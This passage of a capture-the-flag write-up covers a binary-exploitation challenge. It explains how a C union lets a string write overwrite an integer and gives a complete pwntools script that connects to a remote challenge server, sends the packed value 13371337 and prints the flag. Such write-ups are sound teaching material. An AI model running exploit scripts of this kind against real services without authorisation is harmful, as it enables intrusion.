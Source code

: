 ```
(C)ry
```

**So, what if I set the `DataStore.integer` is `13371337` via copying a string?**

**After fumbling around and banging my head against the wall, I found something interesting:**
```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

In the `DataStore.integer` variable, it's a **union variable, which means it creates a user-defined type.** (Source: [Programiz](https://www.programiz.com/c-programming/c-unions))

**Now, we can abuse this to overwrite the byte of the `DataStore.integer` via storing the `13371337` characters to the union string array.**

**To do so, I'll write python script:**
```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'critical' # No logging
elf = context.binary = ELF('./entity')

debug = False

if debug == True:
    p = process()
else:
    p = remote('161.35.33.243', 30956)

# T -> S -> 13371337 in hex (Little endian) -> R -> L -> C (Get the flag)
p.recvuntil(b'>> ')
p.sendline(b'T')
p.recvuntil(b'>> ')
p.sendline(b'S')
p.recvuntil(b'>> ')

# Send 13371337 in hex (Little endian)
p.sendline(pack(13371337))

p.recvuntil(b'>> ')
p.sendline(b'R')
p.recvuntil(b'>> ')
p.sendline(b'L')
p.recvuntil(b'>> ')
p.sendline(b'C')
p.recvuntil(b'>> ')

flag = p.recv()
print(flag.decode('utf-8'))
```
